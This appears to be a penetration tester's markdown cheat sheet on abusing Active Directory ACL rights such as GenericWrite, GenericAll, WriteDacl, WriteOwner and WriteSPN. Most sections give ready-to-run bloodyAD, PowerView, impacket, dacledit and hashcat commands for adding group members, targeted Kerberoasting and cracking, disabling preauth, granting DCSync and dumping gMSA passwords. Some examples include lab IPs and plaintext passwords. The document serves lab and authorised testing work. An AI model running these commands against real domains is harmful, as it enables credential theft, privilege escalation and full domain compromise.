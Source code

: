 # ACL

### Addself

    Addself abused with Add-DomainGroupMember

Shows security groups that a user can add themselves to.

```shell
bloodyAD --host 10.129.186.179 -d 'tombwatcher.htb' -u 'alfred' -p 'basketball' add groupMember 'infrastructure' 'alfred'
```

### ForceChangePassword

    Abused with Set-DomainUserPassword
    https://github.com/Andre92Marcos/tools/blob/master/powersploit/PowerView.md#functions

Gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords).

### GenericWrite

    Abused with Set-DomainObject

Gives us the right to write to any non-protected attribute on an object. If we have this access over a user, we could assign them an SPN and perform a Kerberoasting attack (which relies on the target account having a weak password set). Over a group means we could add ourselves or another security principal to a given group. Finally, if we have this access over a computer object, we could perform a resource-based constrained delegation attack which is outside the scope of this module.

Example:

```powershell
# Create a cred object of the user the has the GenericWrite acl
$SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)

#Next we'll use Set-DomainObject to set a fake SPN on the target account. We'll create an SPN named acmetesting/LEGIT
Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose
```
```shell
#Finally we can use impacket to get the tgt of th target account
impacket-GetUserSPNs -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons
#And then crack
hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt
```

It also allows for a ShadowCredentials attack.


### GenericAll

    Abused with Set-DomainUserPassword or Add-DomainGroupMember

This grants us full control over a target object. Again, depending on if this is granted over a user or group, we could modify group membership, force change a password, or perform a targeted Kerberoasting attack. If we have this access over a computer object and the Local Administrator Password Solution (LAPS) is in use in the environment, we can read the LAPS password and gain local admin access to the machine which may aid us in lateral movement or privilege escalation in the domain if we can obtain privileged controls or gain some sort of privileged access.

We can also add the dont_req_preauth setting so that the account is ASREProastable:

```
bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k add uac <username_of_target_account> -f DONT_REQ_PREAUTH
```

We can also use bloodyAD to change a target user's password.

### ReadGMSAPassword

It is possible to remotely retrieve the password for the GMSA and convert that password to its equivalent NT hash.gMSADumper.py can be used for that purpose.

```shell
gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
```

### WriteDacl

This abuse can be carried out when controlling an object that has WriteDacl over another object.

Instead of giving full control, the same process can be applied to allow an object to DCSync by adding two ACEs with specific Extended Rights (DS-Replication-Get-Changes and DS-Replication-Get-Changes-All). Giving full control leads to the same thing since GenericAll includes all ExtendedRights, hence the two extended rights needed for DCSync to work.

Using dacledit.py

```
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

```
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

Using bloodyAd

```
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add genericAll "$TargetObject" "$ControlledPrincipal"
```

```
# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add dcsync "$ControlledPrincipal"
```

Using PowerView

```powershell
$SecPassword = ConvertTo-SecureString '<password_of_controlled_user_with_WriteDacl>' -AsPlainText -Force
#$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<controlled_user>', $SecPassword)
#$Cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity <user_that_is_gonna_receive_the_dcsync_acls> -Rights DCSync
#Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity svc-alfresco -Rights DCSync
```

### WriteOwner

    Abuse with bloodyAD

    bloodyAD --host <host_ip> -d '<domain_name>' -u '<username>' -p '<password>' set owner <group_name> <name_of_new_owner>
    dacledit.py -action 'write' -rights 'FullControl' -principal '<username_of_new_owner>' -target '<username_being_owned>' '<domain_name>'/'<username_new_owner>':'<password_new_owner>' # to give full control

https://github.com/Andre92Marcos/tools/tree/master/bloodyAD


### WriteSPN

A targeted kerberoast attack can be performed using targetedKerberoast.py: https://github.com/ShutdownRepo/targetedKerberoast


```shell
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```

The tool will automatically attempt a targetedKerberoast attack, either on all users or against a specific one if specified in the command line, and then obtain a crackable hash. The cleanup is done automatically as well.

The recovered hash can be cracked offline using the tool of your choice.
